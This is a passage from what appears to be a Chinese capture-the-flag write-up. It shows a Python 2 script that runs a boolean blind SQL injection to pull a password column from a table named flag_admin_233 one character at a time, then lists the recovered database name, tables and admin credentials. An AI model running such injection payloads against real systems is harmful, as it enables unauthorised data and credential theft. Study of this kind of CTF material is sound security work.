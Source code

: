 ```
		# 		content_length = j
		# 	 	break

		content_length =32

		print "[*]content_length: "+ str(content_length)


		content = ""
		for j in range(content_length):

			for k in number:
				payload = "nishigeshenmegui' or ((select ascii(mid((SELECT pass from flag_admin_233  limit " + str(i) + ",1),"+ str(j + 1) +",1)))>" + str(k) + ")#"

				if test(payload):
					content += chr(k)
					print content
				 	break

		print "[*]content:" + content

def main():
	s = requests.Session()

	# code(s)
	ppayload()



if __name__ == '__main__':
	main()
```

注入得到

```
数据库名web_200
表数量2个
table
flag_admin_233
User

Flag_admin_233
Id， admin， pass


admin******

Admin，1admin2016

```
